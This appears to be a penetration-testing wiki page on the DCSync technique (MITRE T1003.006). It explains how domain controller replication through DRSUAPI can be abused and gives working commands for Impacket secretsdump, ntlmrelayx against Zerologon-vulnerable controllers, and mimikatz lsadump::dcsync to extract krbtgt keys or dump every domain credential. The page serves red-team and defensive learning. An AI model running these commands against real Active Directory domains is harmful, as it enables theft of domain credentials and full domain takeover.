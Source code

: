 ```yaml
---
description: MITRE ATT&CK™ Sub-technique T1003.006
---
```


# DCSync

## Theory

DCSync is a technique that uses Windows Domain Controller's API to simulate the replication process from a remote domain controller. This attack can lead to the compromise of major credential material such as the Kerberos `krbtgt` keys used legitimately for tickets creation, but also for [tickets forging](../../abusing-kerberos/forged-tickets.md) by attackers. The consequences of this attack are similar to an [NTDS.dit dump and parsing](ntds.dit.md) but the practical aspect differ. **A DCSync is not a simple copy & parse of the NTDS.dit file**, it's a `DsGetNCChanges` operation transported in an RPC request to the DRSUAPI \(Directory Replication Service API\) to replicate data \(including credentials\) from a domain controller.

**This attack requires domain admin privileges** to succeed \(more specifically, it needs the following extended privileges: `DS-Replication-Get-Changes`  and `DS-Replication-Get-Changes-All`\). Members of the Administrators, Domain Admins, Enterprise Admins, and Domain Controllers groups have these privileges by default. In some cases, over-privileged accounts can be abused to [grant controlled objects the right to DCSync](../../abusing-aces/granting-genericall.md).

## Practice

{% tabs %}
{% tab title="UNIX-like" %}
On UNIX-like systems, this attack can be carried out with [Impacket](https://github.com/SecureAuthCorp/impacket/)'s [secretsdump](https://github.com/SecureAuthCorp/impacket/blob/master/examples/secretsdump.py) which has the ability to run this attack on an elevated context obtained through [plaintext password stuffing](../bruteforcing/stuffing.md), [pass-the-hash](../../abusing-lm-and-ntlm/pass-the-hash.md) or [pass-the-ticket](../../abusing-kerberos/pass-the-ticket.md).

```bash
# using a plaintext password
secretsdump -outputfile resultsfile 'DOMAIN'/'USER':'PASSWORD'@'DOMAINCONTROLLER'

# with Pass-the-Hash
secretsdump -outputfile resultsfile -hashes 'LMhash':'NThash' 'DOMAIN'/'USER'@'DOMAINCONTROLLER'

# with Pass-the-Ticket
secretsdump -k -outputfile resultsfile 'DOMAIN'/'USER'@'DOMAINCONTROLLER'
```

This attack can also be operated with a [relayed NTLM authentication](../../abusing-lm-and-ntlm/relay.md), but only if the target domain controller is vulnerable to [Zerologon](../../netlogon/zerologon.md) since the DRSUAPI always requires signing.

```bash
# target vulnerable to Zerologon, dump DC's secrets only
ntlmrelayx.py -t dcsync://'DOMAINCONTROLLER'

# target vulnerable to Zerologon, dump Domain's secrets
ntlmrelayx.py -t dcsync://'DOMAINCONTROLLER' -auth-smb 'DOMAIN'/'LOW_PRIV_USER':'PASSWORD'
```
{% endtab %}

{% tab title="Windows" %}
On Windows, [mimikatz](https://github.com/gentilkiwi/mimikatz) \(C\) can be used to operate a DCSync and recover the `krbtgt` keys for a [golden ticket attack](../../abusing-kerberos/forged-tickets.md#golden-ticket) for example. For this attack to work, the following mimikatz command should run in an elevated context \(i.e. through runas with plaintext password, [pass-the-hash](../../abusing-lm-and-ntlm/pass-the-hash.md) or [pass-the-ticket](../../abusing-kerberos/pass-the-ticket.md)\).

```bash
# Extract a specific user, in this case the krbtgt
lsadump::dcsync /dc:$DomainController /domain:$DOMAIN /user:krbtgt

# Dump everything (printed in a short and readable format)
lsadump::dcsync /dc:$DomainController /domain:$DOMAIN /all /csv
```
{% endtab %}
{% endtabs %}

## Resources

{% embed url="https://attack.stealthbits.com/privilege-escalation-using-mimikatz-dcsync" %}

